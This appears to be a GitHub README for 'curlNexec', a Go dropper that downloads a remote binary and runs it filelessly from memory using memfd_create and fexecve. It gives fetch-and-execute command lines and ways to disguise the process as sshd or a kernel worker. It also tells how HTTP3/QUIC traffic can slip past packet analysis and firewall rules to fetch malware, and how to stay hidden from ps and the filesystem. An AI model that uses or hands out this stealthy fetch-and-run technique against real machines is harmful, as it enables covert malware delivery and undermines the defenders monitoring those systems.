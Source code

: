 <h1 align=center> curlNexec </h1>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>

## Short story

`curlNexec` enable us to execute a remote binary on a local machine in one step

 - simple usage `curlNexec <binary_url>`
 - execute binary with specified program name: `curlNexec -n /usr/sbin/sshd <binary_raw_url>`
 - detach program execution from `tty`: ` setsid curlNExec [...]` 

![demo](https://github.com/ariary/curlNexec/blob/main/img/curlNexec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to execute <code>writeNsleep</code> binary locate on a remote machine, locally. 

We first start a python http server on remote.
Locally we use <code>curlNexec</code> and impersonate the <code>/usr/sbin/sshd</code> name for the execution of the binary <code>writeNsleep</code>(for stealthiness & fun)

</details>

## Stealthiness story 

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.

### HTTP3/QUIC

Enable it with `-Q` flag.

You can setup a light web rootfs server supporting http3 by running `go run ./test/http3/light-server.go -p <listening_port>` (This is http3 equivalent of ` python3 -m http.server <listening_port>`).

`QUIC` UDP aka `http3` is a new generation Internet protocol that speeds online web applications that are susceptible to delay, such as searching, video streaming etc., by reducing the round-trip time (RTT) needed to connect to a server.

Because QUIC uses proprietary encryption equivalent to TLS (this will change in the future with a standardized version), **3rd generation firewalls that provide application control and visibility encounter difficulties to control and monitor QUIC traffic**.

If you actually use `curlNexec` as a dropper (***Only for testing purpose or with the authorization***), you likely to execute some type of malwares or other file that could be drop by packet analysis. Hence, with Quic enables you could **bypass packet analysis and GET a malware**.

Also, in case firewall is only used for allowing/blocking traffic it could happen that **firewall rules forget the udp protocol making your requests go under the radars**

### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`curlNexec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 
 2. Detach from tty to map behaviour of deamon process
 
`setsid curlNexec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```
